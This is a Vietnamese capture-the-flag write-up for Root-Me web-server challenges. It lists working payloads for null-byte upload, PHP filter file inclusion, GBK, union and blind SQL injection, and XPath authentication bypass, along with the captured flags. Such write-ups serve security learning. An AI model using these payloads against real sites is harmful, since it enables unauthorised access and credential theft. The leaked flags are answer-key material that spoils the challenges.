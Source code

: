 #Mục lục:

>[1. HTML]
>[2. Weak password]
>[3. User-agent]
>[4. Backup file]
>[5. HTTP directory indexing]
>[6. HTTP Headers]
>[7. HTTP verb tampering]
>[8. Install files]
>[9. Improper redirect]
>[10. CRLF]
>[11. File upload - double extensions]
>[12. File upload - MIME type]
>[13. HTTP cookies]
>[14. Directory traversal]
>[15. File upload - null byte](#15)
>[16. PHP filters](#16)
>[17. PHP register globals]
>[18. Local File Inclusion]
>[19. Local File Inclusion - Double encoding ]
>[20. PHP type juggling]
>[21. Preg_Replace]
>[22. Remote File Inclusion]
>[23. Server-side Template Injection]
>[24. SQL injection - authentication]
>[25. SQL injection - authentication - GBK](#25)
>[26. SQL injection - string](#26)
>[27. LDAP injection - authentication]
>[28. NoSQL injection - authentication]
>[29. Path Truncation]
>[30. PHP Serialization]
>[31. SQL injection - numeric](#31)
>[32. SQL Truncation]
>[33. XML External Entity]
>[34. XPath injection - authentication](#34)
>[35. Local File Inclusion - Wrappers]
>[36. SQL injection - Error]
>[37. SQL injection - Insert]
>[38. SQL injection - file reading]
>[39. XPath injection - string]
>[40. SQL injection - Time based]
>[41. SQL injection - blind]
>[42. LDAP injection - blind]
>[43. XPath injection - blind]
>[44. SQL injection - filter bypass]

#Nội dung
##15. File upload - null byte <a name='15'></a>

[+] URL: `http://challenge01.root-me.org/web-serveur/ch22/?action=upload`
[+] Filter: `shell.php%00.jpg`
[+] Vulnerable: upload nullbyte
[+] File: [shell.php%00.jpg](../prog/shell.php%00.jpg)
[+] Flag: `YPNchi2NmTwygr2dgCCF`

##16. PHP filters <a name='16'></a>

[+] URL: `http://challenge01.root-me.org/web-serveur/ch12/`
[+] Filter: 
 ```
 /index.php?inc=php://filter/convert.base64-encode/resource=index.php
 /index.php?inc=php://filter/convert.base64-encode/resource=ch12.php
 /index.php?inc=php://filter/convert.base64-encode/resource=config.php
 ```
[+] Vulnerable: `include()`
[+] flag: `admin:DAPt9D2mky0APAF`

##25. SQL injection - authentication - GBK <a name="25"></a>

[+] URL: `http://challenge01.root-me.org/web-serveur/ch42/`
[+] Sql injection: `login=%bf' or 1=1 -- -&password=abc`
[+] Vulnerable: `addslashes()` or `magic_quotes_gpc()`. 
[+] Solution: gbk charset encode
[+] flag: `iMDaFlag1337!`

##26. SQL injection - string <a name="26"></a>

[+] URL: `http://challenge01.root-me.org/web-serveur/ch19/?action=recherche`
[+] Sql injection: `' union select (select group_concat(username, password) from users),2  -- -`
[+] Vulnerable: sql string (quote) query
[+] flag: `c4K04dtIaJsuWdi`

##31. SQL injection - numeric <a name='31'></a>

[+] URL: `http://challenge01.root-me.org/web-serveur/ch18/`
[+] Sql injection: `1 or (select substr(group_concat(username, password),i,1) from users)=(select char(j))  -- -`
 [-] Trong đó: i là vị trí kí tự trong chuỗi trả về được cắt ra; j là mã ascii của kí tự bruteforce
[+] Vulnerable: sql number query
[+] code: [sqli-numberic.py](../prog/sqli-numberic.py)
[+] flag: `aTlkJYLjcbLmue3`

##34. XPath injection - authentication <a name="34"></a>

[+] URL: `http://challenge01.root-me.org/web-serveur/ch23/`
[+] Sql injection: `username=John'+or+'1'='1&password=abc`
[+] Vulnerable: base sqli
[+] flag: `6FkC67ui8njEepIK5Gr2Kwe`